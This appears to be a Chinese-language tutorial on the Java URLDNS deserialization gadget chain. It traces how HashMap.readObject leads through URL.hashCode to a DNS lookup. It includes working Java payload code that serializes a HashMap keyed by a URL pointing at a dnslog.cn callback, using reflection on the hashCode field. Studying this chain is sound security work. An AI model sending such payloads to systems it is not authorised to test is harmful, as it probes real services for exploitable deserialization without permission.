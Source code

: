 URLDNS链由于没有版本和依赖限制，。一般用于反序列化漏洞的验证，利用反序列化触发这条链子，引发DNS解析，以便验证漏洞。
```
已知：
1、HashMap类实现了Serializable是可以序列化和反序列化的。并重写了ReadObject方法。
2、HashMap的容器存入URL类型的对象时，调用hash函数会触发对象的hashCode函数来计算hashcode。
3、HashMap重写了ReadObject方法，在反序列化时也会调用hash函数计算hashCode。
```

```
正向触发：
创建hashmap为URL类型的对象和URL对象
使用put存入URL对象数据到hashmap中，作为键或值均可
在hashmap调用put时，调用了Hashmap.java中的hash函数
在hash函数中又调用了这个URL对象的hashCode方法
URL对象中的hashcode方法中，如果hashcode=-1(还未初始化计算hashcode)，会执行URLStreamHandler中的hashCode函数
在URLStreamHandler中的hashCode函数中执行了getHostAddress函数解析了URL，获取ip，因此触发DNS解析(如果失败换一个wifi)

hashmap.put(URL,x)->hash(URL)->URL.hashcode-()>handler.hashcode()->getHostAddress()
```
## **反序列化触发**
payload
```
HashMap<URL, Integer> hashMap = new HashMap<>();
URL url = new URL("http://r2t55a.dnslog.cn");
Class<? extends URL> clazz = url.getClass();
Field code = clazz.getDeclaredField("hashCode");
code.setAccessible(true);
code.set(url, 1); // 伪装hashcode已经初始化，为了让getHostName()不执行。
hashMap.put(url, 1);
code.set(url, -1);// 让hashcode没有初始化，为了再反序列化的时候再初始化执行getHostName()。
```

```
FileOutputStream fileOutputStream = new FileOutputStream("ser.bin");
ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
objectOutputStream.writeObject(hashMap);
fileOutputStream.close();
objectOutputStream.close();

FileInputStream fileInputStream = new FileInputStream("ser.bin");
ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
Object o = objectInputStream.readObject();
System.out.println(o);
objectInputStream.close();
fileInputStream.close();
```
原理：
`java.util.HashMap`实现了`Serializable`接口，重写了`readObject`, 在反序列化时会调用`hash`函数计算`key`的`hashCode`，而`java.net.URL`的`hashCode`在计算时会调用`getHostAddress`来解析域名, 从而发出`DNS`请求。
```

1. HashMap->readObject()
2. HashMap->hash()
3. URL->hashCode()
4. URLStreamHandler->hashCode()
5. URLStreamHandler->getHostAddress()
6. InetAddress->getByName()
```
参考：<https://z-bool.github.io/2022/10/16/java-deserializ-1/>

